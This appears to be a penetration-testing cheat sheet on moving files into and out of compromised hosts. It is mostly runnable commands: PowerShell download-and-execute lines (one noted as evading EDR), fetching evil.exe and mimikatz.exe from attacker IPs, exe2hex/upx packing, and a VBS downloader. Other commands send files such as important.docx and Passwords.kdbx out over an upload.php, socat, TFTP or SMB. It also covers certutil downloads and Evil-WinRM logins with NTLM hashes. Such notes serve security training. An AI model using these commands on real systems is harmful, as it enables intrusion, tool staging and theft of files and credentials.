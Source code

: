 ### Using third-party file sharing links
https://www.file.io/  
https://www.gofile.io/

### Powershell
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')" 
powershell -NoProfile -ExecutionPolicy Bypass -NoLogo -NonInteractive -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

d_f.ps1
$webclient = New-Object System.Net.WebClient
$url = "http://10.11.0.4/evil.exe"
$file = "path\new.exe"
$webclient.DownloadFile($url,$file)
PS:IEX (New-Object System.Net.WebClient).DownloadString('path/d_f.ps1') -- Cant be detected by EDR
```
```
upx -9 nc.exe(compress to be smaller)
exe2hex -x nc.exe -p nc.cmd(convert the file to hex and instruct powershell.exe to assemble it back into binary)
```
```
iwr -uri http://192.168.45.214:8000/mimikatz.exe -Outfile mimikatz.exe
```
#### Upload Files using enabled outbound http traffic
```
save upload.php under kali /var/www/html
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
sudo mkdir /var/www/uploads
ps -ef | grep apache
sudo chown www-data: /var/www/uploads
powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'Path/important.docx')
```

### SCP Copy file from remote machine to local tmp (Linux to Linux)
scp john@localhost:/var/tmp/CopyMe.txt /tmp  
scp [OPTION] [user@]SRC_HOST:]file1 [user@]DEST_HOST:]file2  
scp -P 2222 student@192.168.79.112:/usr/share/kali-defaults/web/img/password.png /home/kali/

### NC transfering files
```
nc -lvnp 6666 > incoming.txt
nc -nv 192.168.65.61 6666 < incoming.txt
```

### Socat transfer files
```
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt  
socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
```

### Pure-ftpd (Linux - Linux)
#### install
/ftphome(pure-ftpd home dir, get,put can transfer files to here or from here)
```
sudo apt update && sudo apt install pure-ftpd  
sudo groupadd ftpgroup  
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser  
sudo pure-pw useradd kali(ftp login username, anyname but ftpuser) -u ftpuser -d /ftphome(input below commands again if reinput this command)
sudo pure-pw mkdb  
cd /etc/pure-ftpd/auth/  
sudo ln -s ../conf/PureDB 60pdb  
sudo mkdir -p /ftphome  
sudo chown -R ftpuser:ftpgroup /ftphome/  
sudo systemctl restart pure-ftpd
```
#### Commands
ftp 10.11.0.4  
bye  
anonymous login:
user:anonymous,password:""
#### Upgrading a Non-Interactive Shell
python -c 'import pty; pty.spawn("/bin/bash")'  
#### mode
bin(binary mode)
ascii(ascii mode)
#### transfer files
```
Authentication first
1. attack machine put files under ftphome dir
2. get filename/put filename
```

### VBS to download files
usage: cscript wget.vbs http://10.11.0.4/evil.exe evil.exe(outfile)
```
strUrl = WScript.Arguments.Item(0)
StrFile = WScript.Arguments.Item(1) 
Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 
Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 
Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 
Const HTTPREQUEST_PROXYSETTING_PROXY = 2 
Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts 
 Err.Clear 
 Set http = Nothing 
 Set http = CreateObject("WinHttp.WinHttpRequest.5.1") 
 If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") 
 If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") 
 If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") 
 http.Open "GET", strURL, False 
 http.Send 
 varByteArray = http.ResponseBody 
 Set http = Nothing 
 Set fs = CreateObject("Scripting.FileSystemObject") 
 Set ts = fs.CreateTextFile(StrFile, True) 
 strData = "" 
 strBuffer = "" 
 For lngCounter = 0 to UBound(varByteArray) 
 ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) 
 Next 
 ts.Close
```
### TFTP to upload files
```
kali: 
sudo apt update && sudo apt install atftp
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
windows xp, 2003 etc:
tftp -i 10.11.0.4 put important.docx
```
### Certutil(windows has this built-in)
```
certutil.exe -urlcache -split -f http://example.com/a.txt C:\Users\Public\nc.exe
```
### smb server to transfer file (Windows to linux)
```
linux:
mkdir tools folder
impacket-smbserver test(customized sharename) tools(share path)/ -smb2support

windows:
net use \\linuxIP\sharename
copy Passwords.kdbx(windows filename) \\kali ip\sharename\Passwords.kdbx
```
### Http
```
wget url
wget -r --no-parent http://192.168.188.144/.git/

curl url -o saved_file_path
```
### Evil-Winrm
```
evil-winrm -i ip -u username -p password
evil-winrm -i ip -u username -H ntlm_hash
evil-winrm basic commands:
Upload usage: upload local_filename or upload local_filename destination_filename
Download usage: download remote_filename or download remote_filename destination_filename
```
